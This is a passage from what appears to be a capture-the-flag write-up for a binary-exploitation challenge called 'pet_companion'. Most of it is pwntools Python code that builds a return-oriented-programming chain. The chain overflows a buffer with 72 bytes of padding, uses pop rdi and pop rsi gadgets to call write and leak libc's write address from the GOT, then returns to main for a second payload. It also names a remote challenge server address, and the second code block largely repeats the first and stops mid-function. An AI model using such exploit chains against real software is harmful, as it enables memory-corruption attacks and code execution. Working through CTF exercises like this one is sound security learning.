 ```python
        print(rop_chain)


    # Receive leaked address
    print(proc.recvuntil(b"[*] Configuring...\n\n"))
    leaked_write = proc.recv(8)
    print("leaked:", leaked_write)
    write_address = u64(leaked_write.strip().ljust(8, b"\x00"))
    print(hex(write_address))
```

Basically, it jumps on the write function, giving the right parameters to it, to print the value of the write function address stored in the GOT.
Then, i'm jumping back to main, to be able to run my previous exploit using the newly leaked memory address.

Now i just had to re-run my script, having my second payload injected once i get back to main.

```python
from pwn import *

LOCAL_FILE_PATH: str = "./pet_companion"
REMOTE_SERVER = "94.237.62.240"
REMOTE_PORT = 43944
libc=ELF("./glibc/libc.so.6", checksec=False)
vuln_elf = ELF(LOCAL_FILE_PATH)
rop=ROP(vuln_elf)

def pwn_pet_compagnion(proc):
    # Find gadgets
    pop_rdi_ret = rop.find_gadget(['pop rdi','ret'])[0]

    # Find gadgets
    pop_rsi_r15_ret = rop.find_gadget(['pop rsi', 'pop r15','ret'])[0]

    # Find addresses
    write_plt = vuln_elf.plt['write']
    write_got = vuln_elf.got['write']
    main_plt = vuln_elf.symbols['main']

    # Build the ROP chain to leak libc address
    rop_chain = b""
    rop_chain += b"A" * 72   # Padding to reach RIP overwrite
    rop_chain += p64(pop_rdi_ret)  # Pop rdi; ret
    rop_chain += p64(1)  # File descriptor (stdout)
    rop_chain += p64(pop_rsi_r15_ret)  # Pop rsi; pop r15; ret
    rop_chain += p64(write_got)  # Address of write in GOT
    rop_chain += p64(0)  # Dummy value for r15
    rop_chain += p64(write_plt)  # Call to write function to leak address of write function
    rop_chain += p64(main_plt)   # Return to main

    # Send payload
    proc.recvuntil(b"[!] Set your pet companion's current status: ")
    proc.sendline(rop_chain)


    with open ('input.txt', 'wb') as out:
        out.write(rop_chain)
        print(rop_chain)


    # Receive leaked address
    print(proc.recvuntil(b"[*] Configuring...\n\n"))
    leaked_write = proc.recv(8)
```